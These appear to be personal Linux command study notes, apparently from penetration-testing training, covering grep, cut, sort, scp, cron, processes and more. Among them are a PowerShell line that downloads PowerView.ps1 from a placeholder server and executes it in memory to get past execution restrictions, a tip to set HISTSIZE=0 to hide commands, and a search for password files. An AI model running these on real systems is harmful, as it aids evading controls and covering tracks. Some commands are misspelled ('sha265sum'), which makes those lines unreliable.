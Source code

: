 
# Linux commands
- ls
- whoami
- cd
- cat
- pwd
- echo
- `find / -name passwords.txt 2>/dev/null`
- `grep "text" file.txt`
- wc -l -b to count entries by byte or line etc.
- base64: for example `base64 -d data.txt` decodes the file content.
- man {command} or {command} --help
- touch	Create file
- mkdir	Create a folder
- cp Copy a file or folder
- mv Move a file or folder
- rm remove	Remove a file or folder
- file Determine the type of a file
- su to change user
- wget
  
- SCP (copy files with ssh)
  + `scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt` to copy a file important.txt from local machine to remote 192.168.1.30 and will be called transferred.txt.
  + `scp ubuntu@192.168.1.30:/home/ubuntu/documents.txt notes.txt` to copy a file called documents.txt from remote 192.168.1.30 to local machine and will be called notes.txt.
    
- Python `HTTPServer` turns your computer into a quick and easy web server that you can use to serve your own files, where they can then be downloaded by another computing using commands such as curl and wget.
  + `python3 -m http.server` is used to start an hhtp server in the directory where the command was run.
  + `wget http://{machineIP}:8000/{some file name}` is used to download some file from the webserver hosted on the {machineIP}.
  + on powershell, we can use tools that are not allowed to execute by loading them from the internet for example my linux server. after running the server in the folder where powerview.ps1 exists, we can use the following to load it: `iex (new-object net.webclient).downloadstring('http://{server-IP}/PowerView.ps1')`. then we can execute the commands of powerview.
- `ps` command is used to provide a list of the running processes as our user's session and some additional information. To see the processes run by other users and those that don't run from a session (i.e. system processes), we need to provide aux to the ps command like so: `ps aux`
  
- `top` gives you real-time statistics about the processes running on your system instead of a one-time view.

- To kill a process, we can use the appropriately named `kill` command and the associated PID that we wish to kill. ex: `kill 1337`. Below are some of the signals that we can send to a process when it is killed:
  - `SIGTERM` Kill the process, but allow it to do some cleanup tasks beforehand
  - `SIGKILL` Kill the process - doesn't do any cleanup after the fact
  - `SIGSTOP` Stop/suspend a process

- `systemctl [option] [service]` is used to interact with systemd process/daemon. ex: `systemctl start apache2`.

- With our process backgrounded using either Ctrl + Z or the & operator, we can use fg to bring this back to focus

- crontabs are files with specific formatting that can be recognised by `cron` process which is used to automate processes. 6 values are needed `MIN HOUR DOM MON DOW CMD`, ex: crontab file will have the command `0 *12 * * * cp -R /home/cmnatic/Documents /var/backups/` which is used to exceute the backup every 12 hours. `crontab -e` is used to add, edit, or delete a cron job.

- grep:
  + Count the Number of Lines Matching a Pattern: `-c`
  + Search for a Pattern and Display Only Matching Text: `-o`
  + Prints the line number of the matching line as well: `-n`
  + Search for a Pattern Recursively in Files within a Directory: `grep -r "pattern" directory/`
  + Search for a Pattern Ignoring Case Sensitivity: `-i`
    
- cut:
  + Extract the first column of each line in the file: `cut -f1 file.txt`
  + Extract a Specific Field from a Colon-Delimited File: `cut -d: -f3 file.txt`
  + Extract a Range of Characters from Each Line: `cut -c1-5 file.txt`
  + Extract Characters from a Specific Position to the End of Each Line: `cut -c6- file.txt`
  + Specify a Custom Delimiter: `cut -d',' -f2 file.csv`
  + Extract Multiple Columns: `cut -f1,3 file.txt`
  + Suppress Lines Without Delimiters: `cut -d',' -s -f2 file.csv`
    
- sort:
  + This command sorts the lines of the comma-delimited CSV file file.csv based on the second field: `sort -t',' -k2 file.csv`
  + Sort Lines of a File and Remove Duplicates: `sort -u file.txt`
  + reverse order: `-r`
  + sort numerically: `-n`

- shred: it is used to overwrite the specified file repeatedly so it would be hard to recover.
- we have the variable `$HISTSIZE` which points to the terminal history, we can `export HISTSIZE=0` to stop recording commands executed.
## Notes
- `sudo !!`: executes the previous command with root privilege.
- The operator & allows us to execute commands in the background.
- "&&" is used to make a list of commands to run for example command1 && command2
- ">>" is used to append, and > is used to override. ex: `echo text > file.txt`
- connect to ssh using command `ssh {username}@IP` or `ssh -i id_rsa username@host`
- to convert from base64: `base64 -d file > fileb`
- to find sha265 of a file in binary: `sha265sum fileb`
- to find the size of a file in bytes: `stat -c %s fileb`
